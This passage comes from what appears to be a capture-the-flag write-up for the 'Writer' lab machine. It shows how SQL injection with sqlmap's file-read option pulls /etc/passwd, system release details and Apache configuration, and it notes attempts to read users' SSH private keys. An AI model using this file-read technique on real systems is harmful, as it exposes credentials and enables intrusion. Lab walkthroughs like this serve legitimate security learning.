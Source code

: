 For example, giving it `--file-read=/etc/lsb-release` returns the file:

```

oxdf@parrot$ cat /home/oxdf/.sqlmap/output/10.10.11.101/files/_etc_lsb-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.2 LTS"

```

I can also do a manual file read by logging in, and then sending that request to Burp Repeater:

![image-20211202133208422](https://0xdfimages.gitlab.io/img/image-20211202133208422.png)

### File System Enumeration

#### Users

The `/etc/passwd` file shows four users that can get shells:

```

oxdf@parrot$ cat /home/oxdf/.sqlmap/output/10.10.11.101/files/_etc_passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
kyle:x:1000:1000:Kyle Travis:/home/kyle:/bin/bash
filter:x:997:997:Postfix Filters:/var/spool/filter:/bin/sh
john:x:1001:1001:,,,:/home/john:/bin/bash

```

I tried to read `user.txt` and `id_rsa` files out of any of their home dirs, but without luck.

#### Web Config

I’ll pull the config for enabled sites from Apache (`/etc/apache2/sites-enabled/000-default.conf`) to see where the web root is located.

```

<VirtualHost *:80>
        ServerName writer.htb
        ServerAdmin admin@writer.htb
        WSGIScriptAlias / /var/www/writer.htb/writer.wsgi
        <Directory /var/www/writer.htb>
                Order allow,deny
                Allow from all
        </Directory>
        Alias /static /var/www/writer.htb/writer/static
        <Directory /var/www/writer.htb/writer/static/>
                Order allow,deny
                Allow from all
        </Directory>
        ErrorLog ${APACHE_LOG_DIR}/error.log
        LogLevel warn
        CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

# Virtual host configuration for dev.writer.htb subdomain
# Will enable configuration after completing backend development
# Listen 8080
#<VirtualHost 127.0.0.1:8080>
#       ServerName dev.writer.htb
#       ServerAdmin admin@writer.htb
#
        # Collect static for the writer2_project/writer_web/templates
```